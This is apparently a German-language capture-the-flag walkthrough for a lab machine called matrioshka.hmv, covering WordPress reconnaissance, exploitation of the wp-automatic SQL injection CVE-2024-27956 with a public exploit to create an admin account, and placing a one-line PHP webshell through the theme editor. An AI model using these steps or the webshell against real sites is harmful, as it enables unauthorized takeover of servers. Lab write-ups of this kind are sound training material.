 ```bash
      
curl -Iv http://matrioshka.hmv

    

IGNORE_WHEN_COPYING_START
Use code with caution. Bash
IGNORE_WHEN_COPYING_END

Die Header zeigten X-Powered-By: PHP/8.2.22 und einen Link-Header zu http://mamushka.hmv/index.php?rest_route=/, was auf WordPress hindeutet. mamushka.hmv wurde ebenfalls zur /etc/hosts hinzugefügt.
WordPress REST API Enumeration

      
curl http://mamushka.hmv/index.php?rest_route=/ -s | jq

     
Bestätigte WordPress und listete API-Namespaces und Routen auf.
Verzeichnis-Bruteforce (gobuster/feroxbuster)

      
gobuster dir -u "http://matrioshka.hmv" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt ...

     
Standard-WordPress-Pfade wie /wp-admin, /wp-content, /wp-login.php, /xmlrpc.php wurden gefunden.
WordPress Scan (wpscan)

      
wpscan --url http://matrioshka.hmv/ --wp-content-dir /wp-content/ --enumerate vp --plugins-detection aggressive --api-token YOUR_WPSCAN_API_TOKEN
 
WPScan identifizierte mehrere Plugins und deren Schwachstellen:

    ultimate-member (Version 2.8.6): Mehrere CVEs, darunter SQL-Injections.

    wp-automatic: Version unbekannt, aber zahlreiche CVEs gelistet, darunter:

        CVE-2024-27956: Unauthentifizierte SQL Injection

        CVE-2024-27954: Unauthenticated Arbitrary File Download / SSRF

Initial Access (Initialer Zugriff)
Ausnutzung von WordPress Plugin Schwachstelle (CVE-2024-27956 - wp-automatic SQLi)

Ein öffentlicher Exploit für CVE-2024-27956 wurde verwendet, um einen neuen Administrator-Benutzer zu erstellen.

      
# Exploit von https://github.com/diego-tella/CVE-2024-27956-RCE
python exploit.py http://192.168.2.180/
 

Ergebnis: Administrator eviladmin mit Passwort admin wurde erstellt.
Erlangen einer Webshell / Reverse Shell als www-data

Nach Login als eviladmin wurde über den WordPress Theme-Editor (twentytwentythree/patterns/hidden-404.php) eine einfache PHP-Webshell platziert:

      
<?php system($_GET["cmd"]); ?>
 

```